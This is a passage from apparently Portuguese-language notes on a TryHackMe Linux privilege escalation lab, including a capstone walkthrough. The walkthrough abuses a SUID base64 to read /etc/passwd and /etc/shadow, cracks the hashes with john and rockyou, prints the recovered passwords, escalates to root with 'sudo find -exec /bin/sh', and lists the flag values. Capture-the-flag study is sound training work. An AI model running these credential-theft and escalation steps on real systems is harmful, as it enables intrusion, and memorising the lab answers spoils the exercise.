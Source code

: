 - Agora vamos compilar
    
    ```bash
    sudo gcc prog.c -o progexec -w
    #prog.c eh meu programa
    ```
    
- Entao no pc da vitima
    
    ```bash
    ./progexec
    ```
    

---

## Capstone Challenge

```bash
sudo -l
find / -type f -perm -04000 -ls 2>/dev/null
#16779966   40 -rwsr-xr-x   1 root     root        37360 Aug 20  2019 /usr/bin/base6
```

- Salvar o arquivo passwd e shadow
    
    ```bash
    base64 /etc/passwd | base64 -d
    base64 /etc/shadow | base64 -d
    ```
    
- Na pasta do `john/run`
    
    ```bash
    ./unshadow ~/Desktop/passwd.txt ~/Desktop/shadow.txt > ~/Desktop/crack.txt
    ./john --wordlist=/usr/share/wordlist/rockyou.txt ~/Desktop/crack.txt
    ./john ~/Desktop/crack.txt --show
    #leonard:Penny123:1000:1000:leonard:/home/leonard:/bin/bash
    #missy:Password1:1001:1001::/home/missy:/bin/bash
    ```
    
- Trocando user
    
    ```bash
    su missy
    #Password1
    sudo -l
    sudo find . -exec /bin/sh \; -quit
    ```
    
- Pegando flags
    
    ```bash
    find / -name flag*.txt 2>/dev/null
    cat /home/missy/Documents/flag1.txt
    cat /home/rootflag/flag2.txt
    ```
    
- `THM-42828719920544`
- `THM-168824782390238`